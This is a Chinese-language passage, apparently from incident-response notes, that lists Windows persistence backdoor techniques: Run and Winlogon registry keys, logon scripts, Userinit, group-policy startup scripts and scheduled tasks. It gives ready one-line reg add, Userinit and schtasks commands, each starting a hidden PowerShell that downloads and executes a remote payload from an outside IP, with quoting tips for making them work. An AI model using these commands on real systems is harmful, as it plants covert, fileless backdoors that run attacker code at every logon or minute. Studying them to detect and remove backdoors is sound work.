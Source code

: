 ```
# Run键 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Winlogon\Userinit键
HKEY_CURRENT_USER\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon

类似的还有很多,关键词：注册表启动键值。
```

使用以下命令可以一键实现无文件注册表后门：

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\"" /f
```

**Logon Scripts 后门**

注册表路径：HKEY_CURRENT_USER\Environment\

创建字符串键值： UserInitMprLogonScript，键值设置为bat的绝对路径：`c:\test.bat`

**userinit后门**

在用户进行登陆时，winlogon运行指定的程序。根据官方文档,可以更改它的值来添加与删除程序。

利用USERINIT注册表键实现无文件后门：

```
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]

"Userinit"="C:\\Windows\\system32\\userinit.exe,C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\""
```

**0x02 组策略设置脚本启动**

运行gpedit.msc进入本地组策略，通过Windows设置的“脚本(启动/关机)”项来说实现。因为其极具隐蔽性，因此常常被攻击者利用来做服务器后门。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-4-3.png)

容易遇到的问题：脚本需全路径，如`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`

**0x03 计划任务**

通过window系统的任务计划程序功能实现定时启动某个任务，执行某个脚本。

使用以下命令可以一键实现：

```
schtasks /create /sc minute /mo 1 /tn "Security Script" /tr "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\"\"\"http://192.168.28.142:8888/logo.gif\"\"\"))\""
```

容易遇到的问题：cmd命令行执行单引号会被替换成双引号，故这里使用三个双引号替代。
